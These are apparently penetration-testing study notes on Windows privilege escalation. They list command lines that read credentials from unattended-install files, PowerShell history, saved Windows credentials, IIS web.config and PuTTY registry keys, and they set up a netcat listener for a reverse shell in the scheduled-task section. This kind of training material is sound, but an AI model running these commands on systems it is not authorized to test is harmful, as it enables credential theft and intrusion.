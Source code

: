 ## *Harvesting Passwords From Usual Spots*
- Gather credentials from compromised machine, such credentials could exist for many reasons, including careless user leaving them around in plaintext files, or even stored by some software like browsers or email clients.
- #### *Unattended Windows Installations*
	- When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows single operating system image to be deployed to several hosts through the network.
	- Since these installations don't require user interaction they are called Unattended Installations.
	- These require administrator account to perform the initial setup, which might end up being stored in the machine in 
		- `C:\Unattend.xml`
		- `C:\Windows\Panther\Unattend.xml`
		- `C:\Windows\Panther\Unattend\Unattend.xml`
		- `C:\Windows\system32\sysprep.inf`
		- `C:\Windows\system32\sysprep\sysprep.xml`
	- As part of these files, might encounter the credentials used.
- #### *Powershell History*
	- Whenever a user runs a command in Powershell it gets stored in a file.
		- It can be retrieved from CMD using `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`.
	- It can be retrieved from Powershell using `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`.
- #### *Saved Windows Credentials*
	- Windows allow us to use other user's credentials, this function also gives us the option to save these credentials on the system.
	- List the saved credentials using `cmdkey /list`.
	- `runas /savecred /user:admin cmd.exe` to use the found credentials.
- #### *IIS Configuration*
	- Internet Information Service is the default web server on Windows.
	- The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
	- Depending on the installed version of IIS, the config file can be found in the following locations
		- `C:\inetpub\wwwroot\web.config`
		- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	- Find database connection string on the file using `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
- #### *Retrieve Credentials From Software: PuTTY*
	- PuTTY is an SSH client found in Windows systems. Connection parameters such as IP, user, and others can be stored for later use.
	- While PuTTY won't allow users to save SSH passwords, it will store proxy configurations that include cleartext authentication credentials.
	- To retrieve the stored proxy credentials, search under the registry key for ProxyPassword using `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`, Simon Tatham is the creator of PuTTY not the username.
## *Misconfigurations*
- Consider these to belong to the realm of CTF events rather than scenarios to be encountered in real penetration testing engagements, however, this can always happen.
- #### *Scheduled Tasks*
	- Some scheduled tasks could have lost its binary or its binary is modifiable by you.
	- List Scheduled Tasks using `schtasks`.
	- Retrieve detailed information about any of the services using `schtasks /query /tn <vuln-task> /fo list /v`, the interesting parameters that will be shown after running this are `Task to Run` which indicates what gets executed, and `Run As User` which shows the user that will be used to execute the task.
	- If the current user can modify the `Task to Run` executable, we can control what gets executed.
	- Check file permissions on the executable using `icacls`.
		- Start a listener on the attacking machine using `nc -lvnp 4444`.